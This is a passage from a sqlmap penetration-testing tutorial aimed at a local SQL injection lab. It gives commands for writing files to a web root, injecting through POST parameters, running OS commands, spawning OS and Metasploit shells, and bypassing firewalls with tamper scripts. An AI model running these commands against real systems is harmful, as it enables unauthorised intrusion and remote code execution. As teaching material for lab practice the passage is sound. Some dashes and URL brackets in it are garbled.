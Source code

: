 We can also write using sqlmap if we have write privileges with — file-write with the location of the file and — file-dest to give the destination where you want to write.

```
sqlmap -u <http://10.0.2.15/sql/Less-9/?id=2 --file-write=/home/an/hi --file-dest=c:/xampp/htdocs/test
```

Post request
============

We can also try sql injection in post request for this we have to supply data with the — data parameter and we can use -p to supply a parameter where we want to try SQL injection.

```
sqlmap  -u <http://10.0.2.15/sql/Less-11/ --data="uname=test'&passwd=&submit=Submit" -p uname
```

We can also try SQL injection in post-request using the post-request file which we could get using the burp suite.

first, save the request in a file then…

we could just use -r for the request filename.

```
sqlmap -r filename -p uname
```

Operating System Takeover
=========================

We can use the — os-cmd parameter with the command you want to run.

```
sqlmap -u <http://10.0.2.15/sql/Less-9/?id=2 --os-cmd=whoami
```

In sqlmap we can get os shell also for that we have to use — os-shell parameter.

```
sqlmap -u <http://10.0.2.15/sql/Less-9/?id=2 --os-shell
```

We can also prompt os shell in Metasploit and direct shell also using — os-pwn.

```
sudo sqlmap -u <http://10.0.2.15/sql/Less-9/?id=2 --os-pwn
```

Bypass Web Application Firewall
===============================

Sometimes we have to encode the payload or are blocked by a firewall in this case we could use tampers.

there are different tampers we can use — list-tampers to list the with their description.

```
sqlmap --list-tampers
```
![alt text](/assets/img/image1.png)
